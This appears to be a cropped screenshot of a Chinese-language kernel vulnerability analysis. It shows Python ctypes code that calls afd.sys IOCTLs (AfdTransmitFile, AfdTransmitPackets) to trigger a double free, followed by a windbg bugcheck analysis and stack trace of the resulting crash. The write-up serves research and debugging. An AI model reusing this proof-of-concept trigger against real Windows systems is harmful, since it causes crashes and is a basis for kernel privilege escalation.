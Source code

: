 ```
                                        PAGEEXE)   
    kernel32.WriteProcessMemory(-1, 0x2000, inbuf2, inbuf2size, byref(written))

#prepare parameters for afd!AfdTransmitFile
CreateBuffer1()

#prepare parameters for afd!AfdTransmitPackets
CreateBuffer2()

#call afd!AfdTransmitFile
ntdll.ZwDeviceIoControlFile(sock,None,None,None,byref(IoStatusBlock),0x1207f, inbuf1, 0x30, None, 0x0)

#call afd!AfdTransmitPackets
ntdll.ZwDeviceIoControlFile(sock,None,None,None,byref(IoStatusBlock),0x120c3, inbuf2, 0x10, None, 0x0)
```

执行后，直接BSOD，windbg打开转储文件，观察堆栈等信息：

```
kd> !analyze -v
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

BAD_POOL_CALLER (c2)
The current thread is making a bad pool request.  Typically this is at a bad IRQL level or double freeing the same allocation, etc.
Arguments:
Arg1: 00000007, Attempt to free pool which was already freed
Arg2: 00001097, (reserved)
Arg3: 08150001, Memory contents of the pool block
Arg4: 86901ac0, Address of the block of pool being deallocated

Debugging Details:
------------------
POOL_ADDRESS:  86901ac0 Nonpaged pool
FREED_POOL_TAG:  Mdl 
BUGCHECK_STR:  0xc2_7_Mdl 
DEFAULT_BUCKET_ID:  VISTA_DRIVER_FAULT
PROCESS_NAME:  python.exe
CURRENT_IRQL:  2
LAST_CONTROL_TRANSFER:  from 83f29083 to 83ec5110

STACK_TEXT:
8e6bc54c 83f29083 00000003 e244d844 00000065 nt!RtlpBreakWithStatusInstruction
8e6bc59c 83f29b81 00000003 86901ab8 000001ff nt!KiBugCheckDebugBreak+0x1c
8e6bc960 83f6bc6b 000000c2 00000007 00001097 nt!KeBugCheck2+0x68b
8e6bc9d8 83ed6ec2 86901ac0 00000000 870e88b8 nt!ExFreePoolWithTag+0x1b1
8e6bc9ec 899cceb0 86901ac0 00000000 899af89f nt!IoFreeMdl+0x70
8e6bca08 899af8ac 00000000 00000001 07f1986b afd!AfdReturnTpInfo+0xad
8e6bca44 899b0bba 07f198c3 000120c3 899b0a8c afd!AfdTliGetTpInfo+0x89
8e6bcaec 899b52bc 8691c038 870f0190 8e6bcb14 afd!AfdTransmitPackets+0x12e
8e6bcafc 83e81593 870f0190 869040d0 869040d0 afd!AfdDispatchDeviceControl+0x3b
8e6bcb14 8407599f 8691c038 869040d0 869041ac nt!IofCallDriver+0x63
8e6bcb34 84078b71 870f0190 8691c038 00000000 nt!IopSynchronousServiceTail+0x1f8
8e6bcbd0 840bf3f4 870f0190 869040d0 00000000 nt!IopXxxControlFile+0x6aa
8e6bcc04 83e881ea 00000168 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
8e6bcc04 772a70b4 00000168 00000000 00000000 nt!KiFastCallEntry+0x12a
0021f964 772a5864 1d1addda 00000168 00000000 ntdll!KiFastSystemCallRet
0021f968 1d1addda 00000168 00000000 00000000 ntdll!NtDeviceIoControlFile+0xc
```